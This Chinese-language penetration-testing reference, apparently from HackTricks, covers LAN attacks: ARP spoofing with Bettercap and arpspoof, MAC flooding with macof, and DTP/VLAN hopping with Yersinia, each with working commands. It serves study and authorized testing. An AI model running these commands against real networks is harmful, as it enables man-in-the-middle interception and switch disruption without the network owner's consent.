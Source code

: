 ## LAN attacks 局域网攻击

### ARP 欺骗
ARP 欺骗包括发送无偿的 ARPResponses 以指示机器的 IP 具有我们设备的 MAC。然后，受害者将更改 ARP 表，并在每次想要联系被欺骗的 IP 时联系我们的机器。
#### **Bettercap**
```
arp.spoof on
set arp.spoof.targets <IP> #Specific targets to ARP spoof (default=<entire subnet>)
set arp.spoof.whitelist #Specific targets to skip while spoofing
set arp.spoof.fullduplex true #If true, both the targets and the gateway will be attacked, otherwise only the target (default=false)
set arp.spoof.internal true #If true, local connections among computers of the network will be spoofed, otherwise only connections going to and coming from the Internet (default=false)
```

#### **Arpspoof**
```
echo 1 > /proc/sys/net/ipv4/ip_forward
arpspoof -t 192.168.1.1 192.168.1.2
arpspoof -t 192.168.1.2 192.168.1.1
```

### MAC 泛洪 - CAM 溢出

溢出交换机的 CAM 表，发送大量具有不同源 mac 地址的数据包。当 CAM 表已满时，交换机开始像集线器一样运行（广播所有流量）。
```
macof -i <interface>
```
在现代交换机中，此漏洞已修复。

### 802.1Q VLAN / DTP 攻击

#### Dynamic Trunking 动态中继
动态中继协议 （DTP） 设计为链路层协议，以促进自动中继系统，允许交换机自动选择中继模式（中继）或非中继模式的端口。DTP 的部署通常被视为网络设计欠佳的迹象，这凸显了仅在必要时手动配置中继并确保正确文档的重要性。

默认情况下，交换机端口设置为在动态自动模式下运行，这意味着如果相邻交换机提示，它们已准备好启动中继。当渗透测试者或攻击者连接到交换机并发送 DTP 理想帧，迫使端口进入中继模式时，就会出现安全问题。此操作使攻击者能够通过 STP 帧分析枚举 VLAN，并通过设置虚拟接口来规避 VLAN 分段。
默认情况下，攻击者可以利用许多交换机中存在 DTP 来模拟交换机的行为，从而访问所有 VLAN 上的流量。脚本 [_**dtpscan.sh**_](https://github.com/commonexploits/dtpscan) 用于监控接口，显示交换机是处于默认模式、中继模式、动态模式、自动模式还是访问模式，后者是唯一不受 VLAN 跳跃攻击影响的配置。此工具评估交换机的漏洞状态。

如果发现网络漏洞，可以使用 Yersinia 工具通过 DTP 协议“启用中继”，从而可以观察来自所有 VLAN 的数据包。
```
apt-get install yersinia #Installation
sudo apt install kali-linux-large #Another way to install it in Kali
yersinia -I #Interactive mode
#In interactive mode you will need to select a interface first
#Then, you can select the protocol to attack using letter "g"
#Finally, you can select the attack using letter "x"

yersinia -G #For graphic mode
```
![](https://book.hacktricks.xyz/~gitbook/image?url=https:%2F%2F129538173-files.gitbook.io%2F%7E%2Ffiles%2Fv0%2Fb%2Fgitbook-x-prod.appspot.com%2Fo%2Fspaces%252F-L_2uGJGU7AVNRcqRvEi%252Fuploads%252FHFo4KympSBlYmczt3NGa%252Fimage.png%3Falt=media%26token=49ed09d2-b172-4f51-93ed-e2ddec01a085&width=768&dpr=4&quality=100&sign=4e56216fe93a121bb97e57d11d712785c1ad2914af57c1509393e04b17fbb551)
